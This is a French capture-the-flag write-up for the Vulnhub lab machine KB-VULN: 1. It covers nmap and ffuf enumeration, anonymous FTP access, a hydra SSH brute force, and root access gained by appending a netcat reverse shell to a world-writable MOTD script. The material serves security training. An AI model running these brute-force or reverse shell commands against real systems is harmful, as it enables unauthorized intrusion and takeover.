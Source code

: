 ```yaml
---
layout: default
title: "Writeup KB-VULN: 1 - Vulnhub"
date:   2020-09-05 07:00:00 +0200
published: true
---
```


# Informations sur la box :

* **Difficulté** : Moyenne
* **Description** : *ENUMERATION ENUMERATION and ENUMERATION! This VM is running on VirtualBox. And has 2 flags:user.txt and flag.txt. This works better with VirtualBox rather than VMware*
* **Type de fichier** : .ova (VirtualBox)
* **DHCP** : Activé
* **Lien** : [https://www.vulnhub.com/entry/kb-vuln-1,540/](https://www.vulnhub.com/entry/kb-vuln-1,540/)


### Ce que nous allons aborder dans ce writeup :

*	[Énumération](#énumération)
* 	[Shell basique](#shell-basique)
*	[Privilege escalation](#privilege-escalation)

* * *

## Énumération
* * *

Malgré le fait qu'elle soit classée "medium" cette box peut concurrencer celle de mon [précédent writeup](https://kr0wz.github.io/fr/2020/09/05/writeup-shelldredd.html) en terme de rapiditer à la finir.

On commence à avoir l'habitude avec les étapes du début :

```bash
nmap -sP 192.168.1.0/24
```

On obtient l'adresse IP de la machine à attaquer qui est la suivante : **192.168.1.32**

On scanne ensuite les ports pour trouver ceux qui sont ouverts avec les services qui tournent dessus :

```bash
nmap -sV -p- 192.168.1.32 -O -A --min-rate 5000 -T5
```

* **-sV** : Permet de scanner les services et d'indiquer les versions et les informations correspondantes
* **-p-** : On scan TOUS les ports
* **-O** : Détection de l'OS
* **-A** : Mode aggressif
* **--min-rate 5000** : Définit le nombre d'envoi de paquets par secondes
* **-T5** : Définit le template comme "rapide"

Pour plus d'informations vous pouvez consulter le ``man`` de nmap.

On obtient :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Le serveur **FTP** autorise les **connexion anonymes**. On sait donc qu'il y a de grandes chances de trouver quelque chose d'intéressant dessus.

On s'y connecte avec la commande suivante :

```bash
ftp 192.168.1.32
```

On précise l'utilisateur **anonymous** et on laisse le champ du mot de passe vide.

Il n'y a qu'un fichier **.bash_history** qui correspond au fichier dans lequel les commandes entrées par un utilisateur lorsqu'il est sur sa session sont enregistrées. On le récupère via le FTP puis on affiche son contenu

```bash
get .bash_history
exit
cat .bash_history
```
```
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

On obtient l'information de l'existence du fichier ``00-header`` contenu dans le répertoire ``/etc/update-motd.d/``. Il s'agit du **Message Of The Day** (MOTD).

Il est exécuté lorsqu'on se connecte au SSH et contient souvent les informations de la date actuelle et peut être personnalisé.


On se rend du côté du serveur web en lançant notre merveilleux outil **fuff** :

```bash
/opt/ffuf/ffuf -u http://192.168.1.32/FUZZ -w /usr/share/dirb/wordlists/directory-list-2.3-big.txt -e .html,.txt,.php
```

On a pour résultat des dossiers basiques qui n'ont pas grand intérêt à première vue :

```
images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 25578, Words: 6731, Lines: 565]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

On se rend directement sur le site web [http://192.168.1.32](http://192.168.1.32) et on regarde le **code source**. 

Au début rien puis vers la fin on voit un commentaire plutôt intéressant :

```html
<!-- Username : sysadmin -->
```

Ok ! On possède déjà un nom d'utilisateur !

J'ai donc continué d'éplucher toutes les pages du serveur web mais rien d'autre a signaler.

J'ai cru que j'étais tombé sur un fichier important à l'adresse [http://192.168.1.32/fonts/flaticon/backup.txt](http://192.168.1.32/fonts/flaticon/backup.txt) mais après décodé le base 64 il s'agissait simplement d'informations liées à une image.

* * *

## Shell basique

A ce moment nous n'avons qu'un nom d'utilisateur sans mot de passe. Ne serait-ce pas le moment de tenter un **brute force** du serveur SSH ?

Pour ce faire on utilise ``hydra`` avec la commande suivante :

```bash
hydra -l sysadmin -P /usr/share/wordlist/rockyou.txt 192.168.1.32 -t 4 ssh -s 22
```

On indique l'utilisateur que l'on a trouvé précédemment, la wordlist ainsi que le service  brute forcer. Dans notre cas SSH sur le port 22.

Après quelques instants un résultat sort :

```
[22][ssh] host: 192.168.1.32   login: sysadmin   password: password1
```

On peut donc se connecter en SSH avec les identifiants suivants : **sysadmin:password1**

On peut directement récupérer le flag user :

```bash
cat /home/sysadmin/user.txt
```
```
48a365b4ce1e322a55ae9017f3daf0c0
```

* * *

## Privilege escalation

On se souvient du fichier qui était dans le FTP : **.bash_history**                                                                                                                                    
Allons voir les droits du fichier qui contient le ``motd`` :

```bash
ls -la /etc/update-motd.d/00-header

-rwxrwxrwx 1 root root 1074 Sep  6 08:12 /etc/update-motd.d/00-header
```

Très bonne nouvelle : on peut le **modifier** !

Comme dit précédement ce fichier est exécuté en tant que root à chaque fois qu'une session SSH est ouverte. 

De ce fait il nous suffit d'y ajouter un reverse shell, de quitter la session et de s'y reconnecter pour obtenir un accès root sur la machine :

```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.1.16 4444 >/tmp/f" >> /etc/update-motd.d/00-header
```

De notre côté un se met en mode écoute avec ``nc`` :

```bash
nc -lnvp 4444
```

On se reconnecte avec SSH et magie ! Nous sommes root.

Il ne nous reste plus qu'à récupérer le dernier flag :

```bash
cat /root/flag.txt
```
```
1eedddf9fff436e6648b5e51cb0d2ec7
```

Cette box n'était pas très compliquée mais bien fun à faire :)

Merci à **MachineBoy** pour avoir créé et partagé cette machine !